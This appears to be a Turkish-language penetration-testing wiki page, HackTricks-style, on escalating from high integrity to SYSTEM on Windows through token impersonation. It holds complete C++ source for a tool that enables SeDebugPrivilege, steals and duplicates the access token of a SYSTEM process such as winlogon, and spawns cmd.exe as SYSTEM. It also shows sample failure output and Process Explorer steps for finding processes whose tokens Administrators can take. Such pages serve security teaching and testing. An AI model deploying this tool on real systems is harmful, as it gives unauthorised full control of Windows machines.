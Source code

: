 # SeImpersonate from High To System

{{#include ../../banners/hacktricks-training.md}}

### Kod

Aşağıdaki kod [buradan](https://medium.com/@seemant.bisht24/understanding-and-abusing-access-tokens-part-ii-b9069f432962) alınmıştır. Bu, **bir İşlem Kimliğini argüman olarak belirtmenizi** sağlar ve belirtilen işlemin **kullanıcısı olarak çalışan bir CMD** çalıştırılacaktır.\
Yüksek Bütünlükte bir işlemde çalışırken, **Sistem olarak çalışan bir işlemin PID'sini** (winlogon, wininit gibi) belirtebilir ve cmd.exe'yi sistem olarak çalıştırabilirsiniz.
```cpp
impersonateuser.exe 1234
```

```cpp:impersonateuser.cpp
// From https://securitytimes.medium.com/understanding-and-abusing-access-tokens-part-ii-b9069f432962

#include <windows.h>
#include <iostream>
#include <Lmcons.h>
BOOL SetPrivilege(
HANDLE hToken,          // access token handle
LPCTSTR lpszPrivilege,  // name of privilege to enable/disable
BOOL bEnablePrivilege   // to enable or disable privilege
)
{
TOKEN_PRIVILEGES tp;
LUID luid;
if (!LookupPrivilegeValue(
NULL,            // lookup privilege on local system
lpszPrivilege,   // privilege to lookup
&luid))        // receives LUID of privilege
{
printf("[-] LookupPrivilegeValue error: %u\n", GetLastError());
return FALSE;
}
tp.PrivilegeCount = 1;
tp.Privileges[0].Luid = luid;
if (bEnablePrivilege)
tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
else
tp.Privileges[0].Attributes = 0;
// Enable the privilege or disable all privileges.
if (!AdjustTokenPrivileges(
hToken,
FALSE,
&tp,
sizeof(TOKEN_PRIVILEGES),
(PTOKEN_PRIVILEGES)NULL,
(PDWORD)NULL))
{
printf("[-] AdjustTokenPrivileges error: %u\n", GetLastError());
return FALSE;
}
if (GetLastError() == ERROR_NOT_ALL_ASSIGNED)
{
printf("[-] The token does not have the specified privilege. \n");
return FALSE;
}
return TRUE;
}
std::string get_username()
{
TCHAR username[UNLEN + 1];
DWORD username_len = UNLEN + 1;
GetUserName(username, &username_len);
std::wstring username_w(username);
std::string username_s(username_w.begin(), username_w.end());
return username_s;
}
int main(int argc, char** argv) {
// Print whoami to compare to thread later
printf("[+] Current user is: %s\n", (get_username()).c_str());
// Grab PID from command line argument
char* pid_c = argv[1];
DWORD PID_TO_IMPERSONATE = atoi(pid_c);
// Initialize variables and structures
HANDLE tokenHandle = NULL;
HANDLE duplicateTokenHandle = NULL;
STARTUPINFO startupInfo;
PROCESS_INFORMATION processInformation;
ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
startupInfo.cb = sizeof(STARTUPINFO);
// Add SE debug privilege
HANDLE currentTokenHandle = NULL;
BOOL getCurrentToken = OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &currentTokenHandle);
if (SetPrivilege(currentTokenHandle, L"SeDebugPrivilege", TRUE))
{
printf("[+] SeDebugPrivilege enabled!\n");
}
// Call OpenProcess(), print return code and error code
HANDLE processHandle = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, true, PID_TO_IMPERSONATE);
if (GetLastError() == NULL)
printf("[+] OpenProcess() success!\n");
else
{
printf("[-] OpenProcess() Return Code: %i\n", processHandle);
printf("[-] OpenProcess() Error: %i\n", GetLastError());
}
// Call OpenProcessToken(), print return code and error code
BOOL getToken = OpenProcessToken(processHandle, MAXIMUM_ALLOWED, &tokenHandle);
if (GetLastError() == NULL)
printf("[+] OpenProcessToken() success!\n");
else
{
printf("[-] OpenProcessToken() Return Code: %i\n", getToken);
printf("[-] OpenProcessToken() Error: %i\n", GetLastError());
}
// Impersonate user in a thread
BOOL impersonateUser = ImpersonateLoggedOnUser(tokenHandle);
if (GetLastError() == NULL)
{
printf("[+] ImpersonatedLoggedOnUser() success!\n");
printf("[+] Current user is: %s\n", (get_username()).c_str());
printf("[+] Reverting thread to original user context\n");
RevertToSelf();
}
else
{
printf("[-] ImpersonatedLoggedOnUser() Return Code: %i\n", getToken);
printf("[-] ImpersonatedLoggedOnUser() Error: %i\n", GetLastError());
}
// Call DuplicateTokenEx(), print return code and error code
BOOL duplicateToken = DuplicateTokenEx(tokenHandle, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);
if (GetLastError() == NULL)
printf("[+] DuplicateTokenEx() success!\n");
else
{
printf("[-] DuplicateTokenEx() Return Code: %i\n", duplicateToken);
printf("[-] DupicateTokenEx() Error: %i\n", GetLastError());
}
// Call CreateProcessWithTokenW(), print return code and error code
BOOL createProcess = CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &startupInfo, &processInformation);
if (GetLastError() == NULL)
printf("[+] Process spawned!\n");
else
{
printf("[-] CreateProcessWithTokenW Return Code: %i\n", createProcess);
printf("[-] CreateProcessWithTokenW Error: %i\n", GetLastError());
}
return 0;
}
```
### Hata

Bazı durumlarda System olarak taklit etmeye çalıştığınızda, aşağıdaki gibi bir çıktı göstererek çalışmayabilir:
```cpp
[+] OpenProcess() success!
[+] OpenProcessToken() success!
[-] ImpersonatedLoggedOnUser() Return Code: 1
[-] ImpersonatedLoggedOnUser() Error: 5
[-] DuplicateTokenEx() Return Code: 0
[-] DupicateTokenEx() Error: 5
[-] CreateProcessWithTokenW Return Code: 0
[-] CreateProcessWithTokenW Error: 1326
```
Bu, Yüksek Bütünlük seviyesinde çalışıyor olsanız bile **yeterli izinlere sahip olmadığınız** anlamına gelir.\
Şimdi `svchost.exe` süreçleri üzerindeki mevcut Yönetici izinlerini **process explorer** (veya process hacker da kullanabilirsiniz) ile kontrol edelim:

1. `svchost.exe` sürecini seçin
2. Sağ Tık --> Özellikler
3. "Güvenlik" sekmesinin içinde sağ altta "İzinler" butonuna tıklayın
4. "Gelişmiş"e tıklayın
5. "Yöneticiler"i seçin ve "Düzenle"ye tıklayın
6. "Gelişmiş izinleri göster"e tıklayın

![](<../../images/image (437).png>)

Önceki resim, "Yöneticiler"in seçilen süreç üzerindeki tüm ayrıcalıklarını içermektedir (gördüğünüz gibi `svchost.exe` durumunda yalnızca "Sorgulama" ayrıcalıklarına sahiptirler)

"Yöneticiler"in `winlogon.exe` üzerindeki ayrıcalıklarını görün:

![](<../../images/image (1102).png>)

Bu süreç içinde "Yöneticiler" "Belleği Oku" ve "İzinleri Oku" yetkisine sahiptir, bu da muhtemelen Yöneticilerin bu süreç tarafından kullanılan belirteci taklit etmelerine olanak tanır.

{{#include ../../banners/hacktricks-training.md}}
